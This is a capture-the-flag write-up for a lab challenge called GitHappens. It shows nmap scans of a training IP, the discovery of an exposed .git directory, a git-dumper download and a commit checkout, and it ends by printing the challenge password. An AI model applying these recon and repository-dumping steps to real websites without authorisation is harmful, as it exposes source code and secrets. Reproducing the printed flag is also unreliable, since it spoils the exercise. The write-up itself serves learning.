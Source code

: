 ```yaml
---
layout: page
title: GitHappens
permalink: /CSCI24/GitHappens/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>

Can you find the password to the application?
---

Looks like we are given a grey box with only an IP and "version control" as a hint

With a quick scan

```nmap -sV 10.10.118.209```

All we see is port 80 having a "nginx 1.14.0" running

Lets try looking for a Git repo shall we?

```nmap -A 10.10.118.209```

<img src="/images/CSCI24/GitHappens/Repo Found.png">

now if we go to

```http://10.10.118.209/``` 

We see a website with a login BUT if we go to

```10.10.118.209:80/.git/```

we can get all the files that we can manually but why not find a script someone has already made to speed up the process?

[Git-Dumper](https://github.com/arthaud/git-dumper)

Now we need to install the Git-Dumper

```sudo pip install git-dumper```

Now lets downlaod the files

```git-dumper http://10.10.118.209:80/.git  ~/Here```

If you cat the README.md

you find the easter egg "git-fail

Sometimes, bad things happen to good sites"

If we cat the index we find a script at the bottom that we need to decode

Orrrr not?

okay well if we go to 

```git log``` while in ~/Here we see the commits made to the git

after some googling we can go to specific commits of the git

<img src="/images/CSCI24/GitHappens/Commits.png">

```sudo git checkout 395e087334d613d5e423cdf8f7be27196a360459```

Lets look at the index again

```cat index.html```

<img src="/images/CSCI24/GitHappens/Password.png">


Find the Super Secret Password

***Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!***

